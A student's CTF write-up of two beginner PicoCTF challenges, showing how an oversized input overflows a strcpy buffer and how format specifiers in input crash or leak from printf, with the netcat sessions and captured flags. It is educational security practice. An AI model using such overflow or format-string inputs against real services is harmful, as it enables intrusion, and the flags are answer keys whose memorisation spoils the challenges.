 # 1. buffer overflow 0
This challenge involves exploiting a buffer overflow vulnerability in a given program. We are also given access to the source code, which helps in understanding how the buffer is handled and where the vulnerability lies.

## Solution:
1. First I received the two files: `vuln` and `vuln.c`. I opened vuln.c with vim to understand how the program works. Reading the source code - I noticed that it asks for a flag.txt file. Nothing was understandable from that.
    <img width="1920" height="983" alt="image (2)" src="https://github.com/user-attachments/assets/e87a9a3b-ae6c-44ac-b753-64b3338990f5" />

2. So I tried running the `vuln` program directly. So I changed its permissions to make it executable.
3. It prompted for input, but I was not sure what to input yet.
    ```bash
    ┌──(neels㉿neel)-[~/PicoCTF/bufferoverflow0]
    └─$ chmod +x vuln

    ┌──(neels㉿neel)-[~/PicoCTF/bufferoverflow0]
    └─$ ./vuln
    Please create 'flag.txt' in this directory with your own debugging flag.
    ```
4. Next, I connected to the challenge server via netcat using `nc saturn.picoctf.net 54577`. The server takes input so I gave - "Input: 93874" and then printed "The program will exit now."
    ```bash
    ┌──(neels㉿neel)-[~/PicoCTF/bufferoverflow0]
    └─$ nc saturn.picoctf.net 54577
    Input: 93874
    ```
5. I was not able to figure out. I tried reading the code again.
6. I reviewed the source code again, focusing on functions like `strcpy` and `gets` - which are known to be unsafe as they dont perform bounds checking(I got to know in PPS class). I saw that `strcpy(buf2, input)` was used, and `buf2` had a fixed size of 16 bytes.
7. So I prepared an input string longer than 16 characters to overflow `buf2`.
8. I made the previous command run again and wrote any random string greater than 16. This caused the program to respond with the flag:
    ```bash
    ┌──(neels㉿neel)-[~/PicoCTF/bufferoverflow0]
    └─$ nc saturn.picoctf.net 54577
    Input: 039485704398732094873409873294870987534987
    picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
    ```

## Flag:
```
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```

## Concepts learnt:
- Understanding how buffer overflows work and how unsafe functions like `strcpy` and `gets` can be exploited.

## Notes:
- I was initially trying to create a random flag file, but since the title was overflow i resisted it and started thinking the other way.
- I also thought about using `gdb` to analyze the binary and after doing a little came back.

## Resources:
- Only Google to get some search about strcpy.
<<<<<<< HEAD
- Later when I opened hint the `man gets` and under that BUGS section was stated.








# 2. format string 0
This challenge involves exploiting format string vulnerabilities in a binary program. The program prompts the user to recommend burgers from a list, but the input is processed using a printf like function.

## Solution:
1. I started by downloading the source code and binary to analyze the programs behavior. I tried to understand the code but not in very detail as last question instead of going and running through the binary second file I connected to the challenge server using `nc mimas.picoctf.net 55252`.
2. Then the game started where something options was given out of 3, I first tried and guessed wrong.
    ```bash
    ┌──(neels㉿neel)-[~/PicoCTF/formatstring0]
    └─$ nc mimas.picoctf.net 55252
    Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
    Here comes the first customer Patrick who wants a giant bite.
    Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
    Enter your recommendation: Breakf@st_Burger
    Breakf@st_BurgerPatrick is still hungry!
    Try to serve him something of larger size!
    ```
3. I played it again, But this time something odd was there in options. Since string was to be there as in challenge title, so it remembered me of `%s` in C programming.Thus I selected the option - `Gr%114d_Cheese`
    ```bash
    ┌──(neels㉿neel)-[~/PicoCTF/formatstring0]
    └─$ nc mimas.picoctf.net 55252
    Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
    Here comes the first customer Patrick who wants a giant bite.
    Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
    Enter your recommendation: Gr%114d_Cheese
    Gr                                                                                                           4202954_Cheese
    Good job! Patrick is happy! Now can you serve the second customer?
    Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
    Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
    Enter your recommendation:
    ```
4. Now for next option - option 1 and 3 both have `%s`, so I tried out 3rd as it has more number of %s(which was illogical...) but I got my flag.
    ```bash
    Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
    Enter your recommendation: Cla%sic_Che%s%steak
    ClaCla%sic_Che%s%steakic_Che(null)
    picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_63191ce6}
    ```

## Flag:
```
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_63191ce6}
```

## Concepts learnt:
- Understanding how format string vulnerabilities work in C programming.
- Learning that format specifiers like `%s`, `%d`, and `%114d` can be used to read or manipulate memory.

## Notes:
After many google searches and refernces I tried to found out the reason and found that - 
```C
if (count > 2 * BUFSIZE) {
    serve_bob();
}
```
This code is checking greater than 64 bytes as BUFSIZE is 32 bytes. So our `Gr%114d_Cheese` is greater than 64 as the `%114d` is a format specifier in "Gr%114d_Cheese". When printf encounters %114d, it expects to print a number with a width of 114 characters.
And for second part I dont get any best answer but I think - `%t` is valid but here in `%s` there were lot more character after that like - `%steak` is not valid as %s still tries to process it.

## Resources:
- [Format String Exploits in C](https://owasp.org/www-community/attacks/Format_string_attack)